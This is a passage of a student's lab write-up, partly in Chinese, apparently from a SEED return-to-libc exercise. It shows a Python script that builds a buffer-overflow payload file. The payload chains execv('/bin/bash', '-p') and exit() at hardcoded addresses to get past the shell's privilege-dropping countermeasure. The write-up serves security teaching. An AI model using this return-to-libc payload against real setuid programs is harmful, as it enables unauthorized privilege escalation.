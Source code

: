 

###  Task 4: Defeat Shell’s countermeasure

return to the `execv()`，首先找到`execv()`的地址：

![image-20220407110425672](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012244186.png)

把-p加入环境变量，并打印出地址：

![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012244759.png)

思路如图：

![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012244357.jpg)

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0x1c+8
sh_addr = 0xffffd3e8       # The address of "/bin/bash"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0x1c
system_addr = 0xf7e91690   # The address of execv()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0x1c+4
exit_addr = 0xf7dfc0d0     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

A=0x1c+12
argv_addr=0xffffcd80+0x120     # The address of argv[] in main
content[A:A+4] = (argv_addr).to_bytes(4,byteorder='little')

B=0x120
argv_addr=0xffffd3e8     # The address of argv[0](address of "/bin/bash") in main
content[B:B+4] = (argv_addr).to_bytes(4,byteorder='little')

C=0x120+4
argv_addr=0xffffd4ac     # The address of argv[1](address of "-p") in main
content[C:C+4] = (argv_addr).to_bytes(4,byteorder='little')

D=0x120+8	# argv[2]全0
content[D:D+4] = (0x0).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
